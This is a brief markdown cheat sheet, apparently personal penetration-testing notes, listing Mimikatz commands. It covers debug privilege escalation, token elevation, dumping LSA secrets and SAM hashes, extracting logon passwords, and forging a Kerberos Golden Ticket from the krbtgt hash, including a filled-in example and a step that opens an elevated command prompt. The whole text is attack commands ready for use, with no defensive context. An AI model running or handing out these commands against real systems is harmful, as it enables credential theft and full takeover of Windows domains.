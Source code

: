 
# Mimikatz

```mimikatz
privilege::debug
token::elevate
lsadump::lsa /patch
lsadump::sam
sekurlsa::logonPasswords
```

### lsadumping

```mimikatz
privilege::debug
lsadump::lsa /patch
```

### Golden Ticket Attacks

```mimikatz
privilege::debug
lsadump::lsa /inject /name:krbtgt
```

Provide values for: `kerberos::golden /user: /domain: /sid: /krbtgt: /id`,
like: `kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-SID /krbtgt:HASH /id:ID`,then  
open command prompt with elevated privileges `misc::cmd`.

